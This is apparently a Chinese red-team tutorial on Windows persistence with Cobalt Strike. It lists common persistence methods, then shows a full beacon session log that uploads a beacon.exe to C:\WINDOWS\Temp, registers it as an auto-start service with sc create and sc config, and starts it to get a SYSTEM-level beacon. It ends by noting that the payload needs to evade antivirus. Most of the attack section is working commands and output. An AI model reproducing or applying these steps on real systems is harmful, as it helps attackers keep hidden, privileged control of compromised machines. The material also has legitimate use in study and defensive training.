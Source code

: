 # 0x00 简介

权限维持以启动CS会话为例,不涉及账号隐藏等等,
常见的可以用于启动会话的权限维持方式。

Windows

1. 注册表

2. 启动项

3. 计时任务

4. 服务

5. shift或者放大镜

6. 各种劫持 

7. 利用其他安装的软件



网上都有相关资料这里我就不详细讲述了，这里根据YouTube视频讲的"服务"，所以这里我也以它为例。


# 0x01 服务

首先生成一个windows Service exe

![Cobalt Strike ](./img/17.1.png)

```
beacon> cd C:\WINDOWS\Temp\
[*] cd C:\WINDOWS\Temp\
[+] host called home, sent: 24 bytes

beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 19 bytes
[*] Listing: C:\WINDOWS\Temp\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     11/15/2014 16:12:21   vmware-SYSTEM
 

beacon> upload /root/beacon.exe
[*] Tasked beacon to upload /root/beacon.exe as beacon.exe
[+] host called home, sent: 309782 bytes
beacon> shell sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[*] Tasked beacon to run: sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[+] host called home, sent: 93 bytes
[+] received output:
[SC] CreateService 成功


beacon> shell sc description "thisisserver" "description"
[*] Tasked beacon to run: sc description "thisisserver" "description"
[+] host called home, sent: 74 bytes
[+] received output:
[SC] ChangeServiceConfig2 成功


beacon> shell sc config "thisisserver" start= auto
[*] Tasked beacon to run: sc config "thisisserver" start= auto
[+] host called home, sent: 67 bytes
[+] received output:
[SC] ChangeServiceConfig 成功


beacon> shell net start "thisisserver"
[*] Tasked beacon to run: net start "thisisserver"
[+] host called home, sent: 55 bytes

```

执行后返回一个system beacon


# 0x02 文末

其实在权限维持的时候使用启动CS server 不是个好的选择，同时这种权限维持对server的免杀要求较高,
利用常用程序的dll感觉还不错。

### 本文如有错误，请及时提醒，以免误导他人